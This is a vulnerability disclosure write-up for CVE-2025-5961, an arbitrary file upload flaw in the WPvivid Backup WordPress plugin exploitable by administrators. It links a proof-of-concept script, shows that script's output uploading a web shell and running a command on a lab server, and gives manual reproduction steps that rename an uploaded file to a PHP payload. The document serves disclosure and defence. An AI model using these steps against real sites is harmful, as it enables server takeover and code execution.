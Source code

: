 +++
title = 'Migration, Backup, Staging – WPvivid Backup & Migration <= 0.9.116 - Authenticated (Administrator+) Arbitrary File Upload'
date = 2025-07-02T00:00:00+00:00
hideToc = true
tags = ["CVE", "WordPress", "WPvivid"]
+++
### CVE-2025-5961

The [wpvivid-backuprestore](https://wordpress.org/plugins/wpvivid-backuprestore/) plugin does not sanitize the file types of the `wpvivid_upload_import_files` action, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server. NOTE: Uploaded files are only accessible on WordPress instances running on the NGINX web server as the existing .htaccess within the target file upload folder prevents access on Apache servers.


## TL;DR Exploits
* A POC [CVE-2025-5961.py](https://github.com/d0n601/CVE-2025-5961/blob/master/CVE-2025-5961.py) is provided to demonstrate an administrator uploading a web shell named `hack.php`.

```console
 python3 ./CVE-2025-5961.py https://lab1.hacker admin password
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
ajax_nonce: e4d4bec9f0
Uploading web shell: hack.php
{"result":"success"}

Web Shell At: https://lab1.hacker/wp-content/wpvividbackups/ImportandExport/hack.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 78309sec preferred_lft 78309sec
    inet6 fd00::a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86105sec preferred_lft 14105sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:63:2d:a4:f2 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details  
The `wpvivid_upload_import_files` action calls the `upload_files` function on line [2210](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2210) of `/wp-content/plugins/wpvivid-backuprestore/includes/class-wpvivid-export-import.php` without enforcing any file type validation. 

Line [2235](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2235) `$file_name` is set as follows:

```php
$file_name=basename(sanitize_text_field($_POST['name']));
```

The `$file_name` variable is then used on line [2246](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2246)  to write the file to the file system.

```php
$file_handle = fopen($path.$file_name, 'wb');
```

## Manual Reproduction
0. Create a malicious file to pass the front-end validation since we're doing this manually. Enter this into the terminal:
```bash
echo "<?php phpinfo(); ?>" >>  wpvivid-0000000000000_1969-04-20-00-00_export_post.zip
```
1. Login to the admin panel and navigate to the `WPvivid Backup` tab.
2. Select `Export & Import` option from the side menu, and then select the `Import` tab.
3. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
4. Click the `Upload and Import` button, and select the `wpvivid-0000000000000_1969-04-20-00-00_export_post.zip` we created in step zero.
![test1](/posts/images/cve-2025-5961/1.png)
5. The first `POST` request will contain something like the following, forward this request along:
```
POST /wp-admin/admin-ajax.php HTTP/2
...
...
...
action=wpvivid_check_import_file&file_name=wpvivid-0000000000000_1969-04-20-00-00_export_post.zip&nonce=5c83c6b97b
```
6. Modify the next request containing the form data to set the file name to `poc.php`: 
![test2](/posts/images/cve-2025-5961/2.png)
7. Naviage to `https://THEWEBSITE.com/wp-content/wpvividbackups/ImportandExport/poc.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-5961/3.png)
